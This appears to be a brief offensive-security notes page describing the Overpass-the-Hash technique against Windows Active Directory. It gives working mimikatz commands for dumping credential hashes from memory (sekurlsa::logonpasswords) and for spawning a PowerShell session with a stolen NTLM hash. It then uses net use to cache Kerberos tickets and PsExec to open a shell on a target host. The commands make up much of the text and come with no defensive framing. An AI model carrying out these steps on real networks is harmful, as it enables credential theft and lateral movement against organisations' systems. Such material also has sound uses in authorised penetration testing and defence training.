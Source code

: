 User NTLM hash can be used to create a Ticket Granting Ticket (TGT) which can then be used to make a Ticket Granting Service (TGS).

On mimikatz, do the following:
```
privilege::debug
```
Note the hash of the user to Overpass the Hash:
```
sekurlsa::logonpasswords
```
```
sekurlsa::pth /user:$(USERNAME) /domain:$(DOMAIN) /ntlm:$(NTLM_HASH) /run:powershell
```
At this point, running the whoami command on the newly created PowerShell session would show the old identity instead of the new user. While this could be confusing, this is the intended behavior of the whoami utility which only checks the current process's token and does not inspect any imported Kerberos tickets.

To ensure kerberos tickets are cached, run the following:
```batch
net use \\$(HOSTNAME)
```

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM). Here we will use PsExec.
```powershell
.\PsExec.exe \\$(HOSTNAME_OF_TARGET) cmd
```
